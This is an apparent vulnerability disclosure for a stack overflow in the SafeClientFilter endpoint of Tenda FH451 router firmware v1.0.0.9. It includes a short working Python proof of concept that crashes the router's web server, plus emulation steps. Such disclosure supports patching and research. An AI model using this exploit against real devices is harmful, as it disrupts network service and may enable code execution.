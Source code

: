 # Stack Overflow Vulnerability in Tenda FH451 Router (v1.0.0.9) – SafeClientFilter Component

**Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
**Affected Firmware**: [Download Link](https://tenda.com.cn/material/show/101629)
**Vulnerability URL**: `http://192.168.200.1:80/goform/SafeClientFilter`
**Vulnerability File**: `/bin/httpd`

## Vulnerability Description

Through code auditing, a critical security risk has been identified in the `SafeClientFilter` routing function (Line 35) . 

![image](https://github.com/user-attachments/assets/7eb0e894-3bf6-4c6b-8ff3-907ff5fa55b9)

Specifically, the program retrieves the input parameter "page" but lacks proper validation for its numerical range (Line 39).

![image](https://github.com/user-attachments/assets/1ca42e07-1aac-4a30-aac5-4201dbe39925)

Cross-referenced to the function `sub_64EAC`, with attention to lines 44 and 47.

![image](https://github.com/user-attachments/assets/7ec64dee-0dad-4336-b115-b9eeb2814f97)

The path of the webpage where the vulnerability occurs is known to be `goform/SafeClientFilter`.

## PoC 

```python
import requests

url = "http://192.168.200.1:80/goform/SafeClientFilter"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

## Reproduction Steps

**1. Environment Setup**:
Simulate the router firmware using QEMU

![image](https://github.com/user-attachments/assets/d669f0aa-969e-427f-aa53-5e611b5ee001)

**2. Router Initialization**:
Ensure the router is running and accessible via `http://192.168.200.1`.

![image](https://github.com/user-attachments/assets/0b680091-a361-4fa4-8d29-4902adf909e4)

**3. Exploit Execution**:
Run the PoC script. The router will crash, rendering the web interface inaccessible.



![image](https://github.com/user-attachments/assets/0dd996b9-9948-4423-bb0f-ddafbbdff0d2)

![image](https://github.com/user-attachments/assets/e199d564-9d78-462f-8d6a-ece3f95f6732)



The router has crashed, and the web interface is also inaccessible.

## Impact 

Remote attackers can exploit this vulnerability to crash the router (`httpd` process) or potentially execute arbitrary code.
